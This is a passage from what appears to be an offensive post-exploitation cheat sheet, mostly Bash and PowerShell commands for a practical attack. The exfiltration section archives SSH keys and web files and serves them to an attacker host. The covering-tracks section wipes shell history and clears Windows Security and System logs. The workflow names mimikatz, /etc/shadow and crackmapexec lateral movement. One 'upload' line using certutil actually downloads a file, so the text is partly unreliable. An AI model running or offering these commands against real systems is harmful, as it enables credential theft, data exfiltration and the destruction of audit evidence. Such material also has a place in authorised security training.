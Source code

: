 #### 🧠 Simple Exfil

```bash
tar czf loot.tar.gz /root/.ssh /var/www/html/*.php
python3 -m http.server 8080
```

Download:

```bash
wget http://<attacker_ip>:8080/loot.tar.gz
```

#### 💣 Stealthy Windows Exfil

```powershell
Compress-Archive -Path C:\Users\Admin\Documents -DestinationPath C:\temp.zip
certutil -urlcache -split -f "http://10.10.14.2/upload.zip" C:\temp.zip
```

***

### VI. 🧹 Covering Tracks

Once you have persistence and loot, **clean your footprints**.

#### 🧩 Linux

```bash
history -c
rm -rf /tmp/*
find / -name ".bash_history" -exec rm {} \; 2>/dev/null
```

#### 🧩 Windows

```powershell
del /F /Q C:\Windows\Temp\*
wevtutil cl Security
wevtutil cl System
Remove-Item -Path $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

***

### VII. 🧠 Real-World Operator Workflow

```bash
# Step 1: PrivEsc achieved
whoami

# Step 2: Persistence
(cron / reg add / schtasks)

# Step 3: Cred extraction
mimikatz / /etc/shadow

# Step 4: Lateral movement
crackmapexec smb 10.10.10.0/24 -u user -p password

# Step 5: Exfiltration
tar czf /tmp/loot.tar.gz /home/*flag*
python3 -m http.server 8000
```
